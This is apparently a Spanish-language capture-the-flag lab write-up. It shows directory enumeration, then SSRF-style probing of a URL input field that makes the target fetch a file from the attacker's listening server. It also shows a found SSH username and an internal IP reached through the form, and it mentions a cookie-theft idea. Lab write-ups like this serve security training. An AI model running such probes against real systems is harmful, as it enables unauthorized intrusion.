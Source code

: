 - **Hallazgos**:
```bash
/index.html           (Status: 200) [Size: 318]
/info                 (Status: 200) [Size: 128]
/process.php          (Status: 500) [Size: 0]
```

Tenemos en la web principal donde nos pide que ingresenmos un **URL** por detras no sabemos si enplea un **ping** o una peticion con **curl**, **GET** o **POST** por lo que probaremos lo siguiente:
Nos ponemos en escucha en nuestra maquina de atacante por el puerto 80 con un servidor **python3**
```bash
python3 -m http.server 80
```

Ahora realizamos una peticion a nuestra maquina atacante desde la web para ver como responde:
```bash
http://172.17.0.1/pwned.js
```

En nuestro servidor tenemos una respuesta y es que esta intentando cargar el archivo: **pwned.js** que no existe pero intenta acceder a el
```bash
10.10.10.2 - - [16/Jun/2025 22:28:47] "GET /pwned.js HTTP/1.1" 404 -
```

Para robar una posible cookie de sesion necesitamos interaccion con un usuario del sistema para que funcione.
Revisando el otro archivo disponible en la ruta:
```bash
http://10.10.10.2/info
```

Tenemos la siguiente info:
```bash
Toni te recuerdo que he publicado las bases de datos de telefonica,la dgt y el banco santander en mi pagina ilegal (20.20.20.3)
```
### Credenciales Encontradas
Tenemos un potencial usuario para el servicio **ssh**
- Usuario: `[ toni ]`

Tambien tenemos una direccon **IP** a la cual no podemos acceder ya que no se encuntra en nuestro rango de red
```bash
20.20.20.3
```

No tenemos coneccion
```bash
ping -c 1 20.20.20.3
PING 20.20.20.3 (20.20.20.3) 56(84) bytes of data.

--- 20.20.20.3 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
```

Intentamos realizar una peticon desde la web en **Ingrese una URL**:
```bash
http://20.20.20.3
```
